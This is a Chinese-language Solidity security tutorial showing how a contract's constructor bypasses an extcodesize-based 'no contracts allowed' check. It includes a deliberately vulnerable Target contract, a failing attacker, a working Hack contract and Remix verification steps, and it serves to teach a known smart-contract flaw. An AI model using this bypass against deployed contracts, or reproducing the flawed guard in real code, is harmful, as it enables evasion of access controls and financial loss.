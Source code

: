 # 79.Bypass Contract Size Check
## 漏洞
如果一个地址是一个合约，那么存储在该地址的代码大小肯定大于0，对吧？

让我们看看如何创建一个代码大小由extcodesize返回的合约等于0的合约。

Tatget合约：Target合约是一个简单的合约，包含一个bool类型的状态变量pwned和一个函数protected()。该函数要求调用者不是一个合约，如果调用者是一个合约，函数将抛出一个错误。该函数将pwned变量设置为true。
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

contract Target {
    function isContract(address account) public view returns (bool) {
        // 该方法依赖于extcodesize函数，对于正在构建中的合约，该函数返回0，因为代码只在构造函数执行结束时存储。
        uint size;
        assembly {
            size := extcodesize(account)
        }
        return size > 0;
    }

    bool public pwned = false;

    function protected() external {
        require(!isContract(msg.sender), "no contract allowed");
        pwned = true;
    }
}
```
FailedAttack合约：FailedAttack合约是一个攻击合约，尝试调用Target合约的protected()函数。但是，由于Target合约的保护机制，从合约调用将失败。
```solidity
contract FailedAttack {
    // 尝试调用Target.protected将失败，
    // Target阻止从合约调用
    function pwn(address _target) external {
        // 这将失败
        Target(_target).protected();
    }
}
```
Hack合约：Hack合约是一个攻击合约，可以绕过Target合约的保护机制。当Hack合约被创建时，它会调用Target合约的isContract()函数来检查它自己是否是一个合约。但是，由于Target合约的isContract()函数依赖于extcodesize()函数，该函数在合约创建期间返回0，因此Hack合约将绕过isContract()检查。然后，它调用Target合约的protected()函数，将pwned变量设置为true。


```solidity
contract Hack {
    bool public isContract;
    address public addr;

    // 当合约正在创建时，代码大小（extcodesize）为0。
    // 这将绕过isContract()检查
    constructor(address _target) {
        isContract = Target(_target).isContract(address(this));
        addr = address(this);
        //这将起作用
        Target(_target).protected();
    }
}
```

## remix验证
1. 部署Target合约，调用 isContract函数输入一个合约地址，查看结果
![79-1.jpg](img/79-1.jpg)
2. 部署FailedAttack合约，调用pwn函数输入上一步的Target合约地址，验证是否成功
![79-2.jpg](img/79-2.jpg)
3. 部署Hack合约，将Target合约地址作为参数传入构造函数。Hack合约的构造函数调用Target.isContract()方法，但此时Hack合约的代码大小为0，因此isContract()方法返回false。
![79-3.jpg](img/79-3.jpg)
4. Hack合约的构造函数调用Target.protected()方法，由于调用者是一个地址而不是合约，因此调用成功并将pwned变量设置为true。查看Target合约的pwned变量，应该为true，说明攻击成功。
![79-4.jpg](img/79-4.jpg)